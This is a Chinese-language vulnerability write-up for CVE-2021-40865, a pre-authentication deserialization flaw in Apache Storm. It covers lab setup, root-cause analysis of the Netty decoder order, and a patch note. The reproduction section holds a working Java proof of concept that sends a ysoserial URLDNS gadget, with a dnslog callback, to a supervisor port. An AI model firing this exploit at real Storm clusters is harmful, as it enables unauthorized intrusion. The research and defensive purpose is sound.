






- [CVE-2021-40865 ApacheStorm 反序列化漏洞](#cve-2021-40865-apachestorm-反序列化漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [StormServerPipelineFactory](#stormserverpipelinefactory)
    - [MessageDecoder](#messagedecoder)
    - [BackPressureStatus](#backpressurestatus)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
# CVE-2021-40865 ApacheStorm 反序列化漏洞
## 影响版本
1.x~1.2.3,2.1.0,2.2.0
## 环境搭建
[参考](https://www.w3cschool.cn/apache_storm/apache_storm_installation.html)  

其中修改storm.yaml增加调试配置
```
worker.childopts: "-agentlib:jdwp=transport=dt_socket,server=y,address=5005,suspend=n"
```
该漏洞是攻击supervisor工作节点,默认端口为6700~6703,搭建好之后要提交一个拓扑,6700端口才会开始监听。  

拓扑构造pom.xml文件如下,storm-core依赖要加`<scope>provided</scope>`,不然会把storm的配置文件也打包进去,在提交拓扑时会和服务器的配置文件冲突导致失败,然后打包为jar包.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>Topology</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.apache.storm</groupId>
            <artifactId>storm-core</artifactId>
            <version>2.2.0</version>
            <scope>provided</scope>
        </dependency>
    </dependencies><build>
    <plugins>
        <plugin>
            <artifactId>maven-assembly-plugin</artifactId>
            <configuration>
                <appendAssemblyId>false</appendAssemblyId>
                <descriptorRefs>
                    <descriptorRef>jar-with-dependencies</descriptorRef>
                </descriptorRefs>
                <archive>
                    <manifest>
                        <!--注意，此处必须是main()方法对应类的完整路径  -->
                        <mainClass>com.ClusterSumStormTopology</mainClass>
                    </manifest>
                </archive>
            </configuration>
            <executions>
                <execution>
                    <id>make-assembly</id>
                    <phase>package</phase>
                    <goals>
                        <goal>assembly</goal>
                    </goals>
                </execution>
            </executions>
        </plugin>
    </plugins>
</build>

</project>
```
具体代码
```java
package com;
import java.util.Map;

import org.apache.storm.Config;
import org.apache.storm.StormSubmitter;
import org.apache.storm.generated.AlreadyAliveException;
import org.apache.storm.generated.AuthorizationException;
import org.apache.storm.generated.InvalidTopologyException;
import org.apache.storm.spout.SpoutOutputCollector;
import org.apache.storm.task.OutputCollector;
import org.apache.storm.task.TopologyContext;
import org.apache.storm.topology.OutputFieldsDeclarer;
import org.apache.storm.topology.TopologyBuilder;
import org.apache.storm.topology.base.BaseRichBolt;
import org.apache.storm.topology.base.BaseRichSpout;
import org.apache.storm.tuple.Fields;
import org.apache.storm.tuple.Tuple;
import org.apache.storm.tuple.Values;
import org.apache.storm.utils.Utils;

public class ClusterSumStormTopology {

    /**
     * Spout需要继承BaseRichSpout
     * 产生数据并且发送出去
     * */
    public static class DataSourceSpout extends BaseRichSpout{

        private SpoutOutputCollector collector;
        /**
         * 初始化方法，在执行前只会被调用一次
         * @param conf 配置参数
         * @param context 上下文
         * @param collector 数据发射器
         * */
        public void open(Map conf, TopologyContext context, SpoutOutputCollector collector) {
            this.collector = collector;
        }

        int number = 0;
        /**
         * 产生数据，生产上一般是从消息队列中获取数据
         * */
        public void nextTuple() {
            this.collector.emit(new Values(++number));
            System.out.println("spout发出："+number);
            Utils.sleep(1000);
        }

        /**
         * 声明输出字段
         * @param declarer
         * */
        public void declareOutputFields(OutputFieldsDeclarer declarer) {
            /**
             * num是上nextTuple中emit中的new Values对应的。上面发几个，这里就要定义几个字段。
             * 在bolt中获取的时候，只需要获取num这个字段就行了。
             * */
            declarer.declare(new Fields("num"));
        }

    }

    /**
     * 数据的累计求和Bolt
     * 接收数据并且处理
     * */
    public static class SumBolt extends BaseRichBolt{
  /**
         * 初始化方法，只会被执行一次
         * */
        public void prepare(Map stormConf, TopologyContext context, OutputCollector collector) {

        }
        int sum=0;
        /**
         * 获取spout发送过来的数据
         * */
        public void execute(Tuple input) {
            //这里的num就是在spout中的declareOutputFields定义的字段名
            //可以根据index获取，也可以根据上一个环节中定义的名称获取
            Integer value = input.getIntegerByField("num");
            sum+=value;
            System.out.println("Bolt:sum="+sum);
        }
        /**
         * 声明输出字段
         * @param declarer
         * */
        public void declareOutputFields(OutputFieldsDeclarer declarer) {
        }
    }

    public static void main (String[] args){
        //TopologyBuilder根据spout和bolt来构建Topology
        //storm中任何一个作业都是通过Topology方式进行提交的
        //Topology中需要指定spout和bolt的执行顺序
        TopologyBuilder tb = new TopologyBuilder();
        tb.setSpout("DataSourceSpout", new DataSourceSpout());
        //SumBolt以随机分组的方式从DataSourceSpout中接收数据
        tb.setBolt("SumBolt", new SumBolt()).shuffleGrouping("DataSourceSpout");
        //代码提交到storm集群上运行
        try {
            StormSubmitter.submitTopology("ClusterSumStormTopology", new Config(), tb.createTopology());
        } catch (AlreadyAliveException e) {
            e.printStackTrace();
        } catch (InvalidTopologyException e) {
            e.printStackTrace();
        } catch (AuthorizationException e) {
            e.printStackTrace();
        }

    }
}

```
提交拓扑`bin/storm jar /mnt/d/JAVA/Topology/target/Topology-1.0-SNAPSHOT.jar com.ClusterSumStormTopology`  
结果如下

## 原理分析
### StormServerPipelineFactory
Strom supervisor通过netty使用Channel在端口监听数据进行处理，而在`StormServerPipelineFactory`中可以看到StormServer在初始化Channel处理顺序时是现先添加了一个`decoder`，然后后面才添加了`authorizeServerHandler`进行认证，也就是Channel先会解码接受到的数据然后再进行后续处理。

### MessageDecoder
可以看到在`ChannelRead`中处理数据时调用了MessageDecoder.CallDecode.

而对应的decode方法中,读取了一个short到code中,也就是两个字节。

然后在后面如果code为`-600`时进入分支,而在该分支的最后调用了`BackPressureStatus.read(bytes, deser)`.

### BackPressureStatus
在`BackPressureStatus#read`中调用了`deserializer.deserializeObject`来反序列化数据。

其中`KryoValuesDeserializer`反序列化器则是在Channel初始化时通过`KryoValuesDeserializer(conf)`传入.
```java
        pipeline.addLast("decoder", new MessageDecoder(new KryoValuesDeserializer(topoConf)));
```
在`KryoValuesDeserializer`中最后当`override`为true时默认会返回一个原生的反序列化器。


而`override`的值在则是在`getKryo()`中通过`postRegister`设置为`true`.


## 漏洞复现
```java
import org.apache.storm.serialization.KryoValuesSerializer;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.URLDNS;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.net.*;
import java.util.HashMap;

public class CVE_2021_40865 {

    public static byte[] buffer(KryoValuesSerializer ser, Object obj) throws IOException {
        byte[] payload = ser.serializeObject(obj);
        BigInteger codeInt = BigInteger.valueOf(-600);
        byte[] code = codeInt.toByteArray();
        BigInteger lengthInt = BigInteger.valueOf(payload.length);
        byte[] length = lengthInt.toByteArray();

        ByteArrayOutputStream outputStream = new ByteArrayOutputStream( );
        outputStream.write(code);
        outputStream.write(new byte[] {0, 0});
        outputStream.write(length);
        outputStream.write(payload);
        return outputStream.toByteArray( );
    }

    public static KryoValuesSerializer getSerializer() throws MalformedURLException {
        HashMap<String, Object> conf = new HashMap<>();
        conf.put("topology.kryo.factory", "org.apache.storm.serialization.DefaultKryoFactory");
        conf.put("topology.tuple.serializer", "org.apache.storm.serialization.types.ListDelegateSerializer");
        conf.put("topology.skip.missing.kryo.registrations", false);
        conf.put("topology.fall.back.on.java.serialization", true);
        return new KryoValuesSerializer(conf);
    }

    public static void main(String[] args) {
        try {
            // Payload construction
            String command = "http://5lgqlw.dnslog.cn";
            ObjectPayload gadget = URLDNS.class.newInstance();
            Object payload = gadget.getObject(command);
            // Kryo serialization
            byte[] bytes = buffer(getSerializer(), payload);
            // Send bytes
            Socket socket = new Socket("172.27.93.132", 6700);
            OutputStream outputStream = socket.getOutputStream();
            outputStream.write(bytes);
            outputStream.flush();
            outputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

        }


```

调用栈:

## 补丁
在连接就绪时也就是反序列化之前增加了验证。
